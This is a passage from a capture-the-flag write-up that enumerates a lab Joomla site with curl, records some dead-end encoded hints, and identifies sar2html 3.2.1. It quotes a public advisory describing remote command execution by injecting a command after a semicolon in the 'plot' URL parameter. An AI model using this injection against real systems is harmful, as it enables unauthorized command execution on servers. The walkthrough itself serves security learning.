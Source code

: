 #### Wrong tracks

~~~
$ curl -s http://10.10.115.78/joomla/_files/ | html2text 
# VjJodmNITnBaU0JrWVdsemVRbz0K
$ echo "VjJodmNITnBaU0JrWVdsemVRbz0K" | base64 -d | base64 -d
Whopsie daisy
~~~

~~~
$ curl -s http://10.10.127.30/joomla/~www/ | html2text 
#  Mnope, nothin to see.
$ curl -s http://10.10.127.30/joomla/_archive/ | html2text 
#  Mnope, nothin to see.
~~~

~~~
unknown@localhost:/data/src/wordlists$ curl -s http://10.10.127.30/joomla/_database/ | html2text 
# Lwuv oguukpi ctqwpf.
~~~
which decodes to `Time command spring` (https://quipqiup.com/). Nothing interesting.

#### sar2html

sar2html
http://10.10.127.30/joomla/_test/

Looking for information on `sar2html` on Google, I found this: https://packetstormsecurity.com/files/153858/Sar2HTML-3.2.1-Remote-Command-Execution.html:

~~~
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
~~~

!["sar2html exploit"](files/sar2html-exploit.png)